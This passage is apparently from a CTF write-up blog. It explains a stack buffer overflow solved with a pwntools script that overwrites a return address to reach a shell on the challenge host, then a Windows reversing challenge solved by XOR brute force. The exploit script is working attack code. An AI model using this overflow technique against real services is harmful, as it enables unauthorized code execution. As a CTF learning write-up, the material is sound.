 Starting from the `esp` below, data will get pushed in up until the last *blank* byte at `esp-0x18`. So by entering 24 random characters, we hit the and of the stack. The next four bytes are the `old esp` position, and above that is the precious `{__return_addr}`. We will need to key in `0x080491f5`, but not with ascii characters of course. So we use `pwntools` in python to help us.

```py
from pwn import *

target_function_address = 0x080491f5  # Address of target function

# Construct the payload
payload = b'A' * 16 + b'B' * 4 + p32(target_function_address)

# Connect to the remote service
p = remote("challenge.ctf.games", PORT)

# Send the payload
p.sendline(payload)

# Drop into interactive mode to access the shell
p.interactive()
```

We get dropped into the shell after running this, and we are free to roam the world (and print the file containing the flag).

{: #eepy}
# eepy
> Author: @HuskyHacks
> 
> *yawn* why am i so eeeeeeeeepy?

I was the 14th solve. Pretty cool. Windows executable, I immediately popped it into Binja. I entered the *main* function, and scoured for the main *action*. A lot of threads and sl*eeping*, and a lot of *red herrings* to waste time. There was, however, one *memcopy* that looked Suspicious:

![Suspicious memcopy](sus.png)

It was the only one that was copying data over, and I went to look at it. It was `0x26` bytes before `0`s. I copy the hexadecimal data over to [cyberchef](https://gchq.github.io/CyberChef) and convert from hexadecimal. It was gibberish. However, it is 38 characters, so it **had** to be the flag. I had an inkling that HuskyHacks might use *XOR*, so I just threw a *XOR Brute Force* with `flag` and the crib, and we got the flag! (Key was `0xAA`)

{: }


